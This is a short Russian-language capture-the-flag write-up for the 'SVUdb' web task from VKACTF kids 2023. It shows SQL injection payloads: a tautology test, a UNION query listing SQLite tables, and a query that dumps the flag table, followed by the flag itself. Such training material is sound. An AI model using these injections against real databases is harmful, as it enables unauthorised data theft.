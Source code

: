 ## SVUdb

| Событие | Название | Категория | Сложность |
| :------ | ---- | ---- | ---- |
| VKACTF kids 2023 | SVUdb  | Web | Легкая |

## Описание

>Автор: Inssurg3nt
>
>Описание: Представлен самый удобный инструмент взаимодействия с базой данных для тех, кто до сих пор не понял, где учится их бывший одноклассник,, но точно помнит буквы на его алых погонах.

# Решение

По функционалу и описанию все становится понятно - ноебходимо достать флаг из базы данных. Первое что приходит на ум - SQL инъекция.
Для начала проверим наличие инъекции
```
' or 1=1 --q
```
Затем пробуем получить название таблиц и видим таблицу flag
```
' UNION SELECT name FROM sqlite_master WHERE type='table' --q
```
Считываем все поля этой таблицы
```
' UNION SELECT *name* FROM flag --q
```

### Флаг

Получаем наш флаг
```
vka{military_schools_db_without_protection}
```
